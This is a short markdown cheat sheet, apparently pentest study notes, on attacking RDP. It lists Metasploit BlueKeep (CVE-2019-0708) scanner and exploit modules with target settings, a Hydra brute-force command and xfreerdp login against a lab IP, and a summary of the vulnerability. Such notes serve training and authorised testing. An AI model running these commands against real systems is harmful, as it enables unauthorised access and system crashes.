

# Metasploit:

- if rdp is not running on standard port 3389, 
- run auxiliary/scanner/rdp/rdp_scanner on suspected port, eg. 3333
  
  
  
- auxiliary/scanner/rdp/cve_2019_0708_bluekeep
- exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	- set target 2
	- 2 : Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)

# Hydra:

- brute-force
- hydra -L <userlist> -P <passlist> rdp://10.0.0.31 -s 3333
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- -s specifies non-standard port
- xfreerdp /u:<user> /p:<pass> /v:10.0.0.31:3333

# BlueKeep Vuln (CVE-2019-0708)

- takes adv of vuln in windows rdp protocol
- allows attacker to gain access to chunk of kernel mem
- allows remote code execution at system level without auth
- affects XP, Vista, Win7, WinServ2008 & R2
- exploit can cause system crash